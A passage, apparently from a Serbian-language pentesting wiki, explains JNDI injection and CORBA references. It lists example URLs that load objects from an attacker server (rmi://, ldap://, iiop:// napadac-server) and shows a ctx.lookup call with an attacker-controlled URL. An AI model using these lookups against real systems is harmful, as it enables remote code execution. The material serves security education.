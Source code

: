 Međutim, **Menadžer Imenovanja**, odgovoran za rešavanje JNDI veza, nema ugrađene mehanizme bezbednosti, što potencijalno omogućava povlačenje objekata sa bilo kog izvora. Ovo predstavlja rizik jer se zaštita od RMI, LDAP-a i CORBA-e može zaobići, što dovodi do učitavanja proizvoljnih Java objekata ili iskorišćavanja postojećih komponenti aplikacije (gadžeta) za pokretanje zlonamernog koda.

Primeri eksploatabilnih URL-ova uključuju:

* _rmi://napadac-server/bar_
* _ldap://napadac-server/bar_
* _iiop://napadac-server/bar_

I pored zaštite, ranjivosti ostaju, uglavnom zbog nedostatka zaštite od učitavanja JNDI sa nepoverenih izvora i mogućnosti zaobilaženja postojećih zaštita.

### Primer JNDI

![](<../../.gitbook/assets/image (655) (1) (1).png>)

Čak i ako ste postavili **`PROVIDER_URL`**, možete naznačiti drugi u pretrazi i biće pristupljen: `ctx.lookup("<kontrolisani-napadac-url>")` i to je ono što će napadač zloupotrebiti da učita proizvoljne objekte sa sistema koji kontroliše.

### Pregled CORBA-e

CORBA (Common Object Request Broker Architecture) koristi **Interoperabilnu Referencu Objekta (IOR)** da jedinstveno identifikuje udaljene objekte. Ova referenca uključuje osnovne informacije kao što su:

* **ID Tipa**: Jedinstveni identifikator za interfejs.
* **Codebase**: URL za dobijanje stub klase.

Važno je napomenuti da CORBA nije inherentno ranjiv. Osiguravanje bezbednosti obično uključuje:

* Instalacija **Bezbednosnog Menadžera**.
* Konfigurisanje Bezbednosnog Menadžera da dozvoli konekcije ka potencijalno zlonamernim codebase-ovima. Ovo se može postići putem:
* Dozvola za sokete, npr. `permissions java.net.SocketPermission "*:1098-1099", "connect";`.
* Dozvole za čitanje fajlova, ili univerzalno (`permission java.io.FilePermission "<<ALL FILES>>", "read";`) ili za specifične direktorijume gde bi zlonamerni fajlovi mogli biti smešteni.
